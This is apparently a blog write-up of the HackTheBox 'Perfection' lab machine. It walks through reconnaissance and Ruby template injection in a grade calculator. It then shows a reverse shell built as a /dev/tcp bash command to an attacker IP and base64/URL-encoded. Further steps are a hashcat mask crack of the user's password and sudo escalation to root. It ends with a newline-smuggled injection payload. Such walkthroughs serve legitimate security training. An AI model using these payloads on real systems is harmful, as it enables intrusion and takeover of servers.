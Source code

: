 +++
title = 'Perfection'
date = 2024-07-19T14:39:25+05:30
slug = "HTB-Perfection"
categories = ["hackthebox","Perfection","linux","Easy"]
+++

Startign with nmap 

![perfection 1](https://dl.dropbox.com/scl/fi/kx982jejvm51n9uaw31ou/Pasted-image-20240428172105.png?rlkey=yyntjx1bnkhj9j4cw81208jza&st=ltd2oesi&dl=0)

![perfection 2](https://dl.dropbox.com/scl/fi/07pr7iebbt11f1bzlelc0/Pasted-image-20240428172547.png?rlkey=6boj54ev711y8q6x8fapcz3zj&st=t1hgi5xr&dl=0)

the website dashboard

checked the wappalyzer to find the technologies website is using but couldn't find any 
I tried directory fuzzing 

Found this at the bottom of the website 

![perfection 2](https://dl.dropbox.com/scl/fi/4h7qzrzgdij4y2mwggn6d/Pasted-image-20240428172356.png?rlkey=h55s17ycmae2gj42q3fis4qlf&st=v7skct6p&dl=0)

![perfection 3](https://dl.dropbox.com/scl/fi/eosiqi38dyjraggin3hko/Pasted-image-20240428172442.png?rlkey=wc4xvjbx8rcus2ryp833h2yxk&st=onml3qmn&dl=0)

![perfection 4](https://dl.dropbox.com/scl/fi/n23s7rj4ljwibar8y34q6/Pasted-image-20240428172517.png?rlkey=p98x6u6apxkdbk6r4gzrgitwq&st=q1fa4xj7&dl=0)

we got another info that susan is sysadmin 

we can see this in the about us and there might me a vulnerability on secure coding

![perfection 5](https://dl.dropbox.com/scl/fi/8czuqbffm3m6ybblxlyp2/Pasted-image-20240428172611.png?rlkey=mlz0ojlkmoxkm2bj14u40di30&st=wjmf3l0j&dl=0)

there is a input field in the website , there might be a input validation vulnerbility

let's do some rearch on the technologies the website is using WEBrick 

![perfection 6](https://dl.dropbox.com/scl/fi/ybz3os28u7dpuczy6lb4u/Pasted-image-20240428172643.png?rlkey=qcxrlcqbj5zal9b1tra5c3oj8&st=k1roabx6&dl=0)

but there is no information about vulnerbilities

![perfection 7](https://dl.dropbox.com/scl/fi/vmner2o0vp56ovlx168oa/Pasted-image-20240428172712.png?rlkey=p5xq5p78wqtkzgri697dyvuxi&st=5drybtfk&dl=0)


the above is the robots.txt file we got something intresting 

now we've gatherd information available in the website the next part will be testing the inputs

![perfection 8](https://dl.dropbox.com/scl/fi/bsa478pi15jegiqdmoh4i/Pasted-image-20240428172824.png?rlkey=aqwa3tctjgrjmq48vga5r36i9&st=d4iglepj&dl=0)

i did burpsuite scan to get more information about the vulnerbilities and the results are 

![perfection 9](https://dl.dropbox.com/scl/fi/eatb1xyitnx8si3b4s0p1/Pasted-image-20240428172841.png?rlkey=k6mlz4rdrs220x0049xx7xr12&st=0gebdusd&dl=0)
to know how to perform a scan in burpsuite refer to [[scanning with burp scanner]]
so i confirmed that there is a way to bypass the input in the calculator

after adding single '  i got this result 

![perfection 10](https://dl.dropbox.com/scl/fi/n5gokptftk1ng998x3prj/Pasted-image-20240428173049.png?rlkey=1eiijyj3hgvbgd5m8pfuamfeq&st=tvc4gir2&dl=0)

after bit of research i came to know that it is a SSTI vulnerbility (server side template injection)
refer [[SSTI vulnerbility]] 

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

search for ruby payloads in this website

![perfection 11](https://dl.dropbox.com/scl/fi/0noe8981v7fw3rd4b8p00/Pasted-image-20240428173117.png?rlkey=aypy87w1a2yzbvo5v7gr7l4jk&st=mvc5795e&dl=0)


let's try some payloads and see what happens

![perfection 12](https://dl.dropbox.com/scl/fi/7mfd8koua6ont36yyx39x/Pasted-image-20240428173215.png?rlkey=7o5e94a8vauv3qsuvcfgf4e6a&st=zhcwz6to&dl=0)

we've got same result let's keep trying
to encode select the characters and do ctrl+u to do url encoding

![perfection 13](https://dl.dropbox.com/scl/fi/58yrzotidpsj41pym9yvn/Pasted-image-20240428173655.png?rlkey=ai1mzgkwjscdhzxqgktcied94&st=1sfko5bl&dl=0)

i've multiplied 7* 7 and i got the result 49 so <%= 7* 7 %> payload works 

now let's add a linux command to thi payload to see if it works 

![perfection 14](https://dl.dropbox.com/scl/fi/gktzqa2p8zzlrqiqt83hy/Pasted-image-20240428173754.png?rlkey=b8r96umkvvl9k3o82kjaxuqfb&st=4u84j1pi&dl=0)

we got susan as the username if we used whoami comamnd here

let's do ls and pwd to knwo the direcotries and present directory
to execute commands use  ` 'these 

![perfection 15](https://dl.dropbox.com/scl/fi/yx5332o9f22rzlh9tlbxv/Pasted-image-20240428173826.png?rlkey=s9mtnv3oacnt8lrjw0c2c38q1&st=y0nmi8am&dl=0)

we got some details

using revshells.com website i created a python payload and gave me shell access

![perfection 16](https://dl.dropbox.com/scl/fi/o6qwugbfs5hyeaw5frj3p/Pasted-image-20240428173912.png?rlkey=xrqe4lgyeix89ep6zr7elgmdy&st=qt0bvjwk&dl=0)

We can generate payload manually on our terminal refer to [[#Generate Payload]]

![perfection 18](https://www.dropbox.com/scl/fi/o5bqluapks7zzdxdh3zuo/Pasted-image-20240428174443.png?rlkey=sqqkdafl6aqwbca7xsqrzwpb5&st=1rbq7jxa&dl=0)

to get neat terminal we did 
python3 -c 'import pty; pty.spawn("/bin/bash")'


we got the user flag now

![perfection 19](https://dl.dropbox.com/scl/fi/tlmq6axnw80401uplnhst/Pasted-image-20240428174552.png?rlkey=5cxamrau1kz1b8xhpxrwk38sn&st=jzy2ixjd&dl=0)

cracking password with hash cat  using this command
```
hashcat -m 1400 <hashhere> -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

![perfection 20](https://dl.dropbox.com/scl/fi/cs33msyywl4i2377zddqc/Pasted-image-20240428174743.png?rlkey=ccbuu45rbmb431apwv8awvvz4&st=x3fea1yl&dl=0)

refer [[Hashcat]] to learn using hashacat

after sometime we finally cracked hashcat password 
susan_nasus_413759210

![perfection 21](https://dl.dropbox.com/scl/fi/o10opz8t9du2ajbn8fvu0/Pasted-image-20240428174954.png?rlkey=ih1dij52arygvzdfp11hnlp03&st=h9qyj53d&dl=0)


using sudo bash we switched to root user and got root flag
![perfection 22](https://dl.dropbox.com/scl/fi/sfqcyp74fen4scv6gjfza/Pasted-image-20240428175215.png?rlkey=mv1m9qgrto16itn1oeblvw4wm&st=u5iwnpjp&dl=0)


### Generate Payload

Using hURL to encode and decode payloads demonstrates how we can mess around with data to take advantage of weaknesses in web applications.

Specifically, the payload we’re making for the Weighted Grade Calculator app is made to run a reverse shell command. This way, we can exploit any possible vulnerabilities that let us run code on the server’s side.

```
┌──(kali㉿kali)-[~]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.14.213/7373 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.14.213/7373 0>&1                                                                                                                                                     
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx

┌──(kali㉿kali)-[~]
└─$ hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx"

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx                                                                                                                                          
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx
```

```
category1=a%0A<%25%3Dsystem("ping+-c1+$myIP");%25>
```
the above is the another paylaod from the write up 
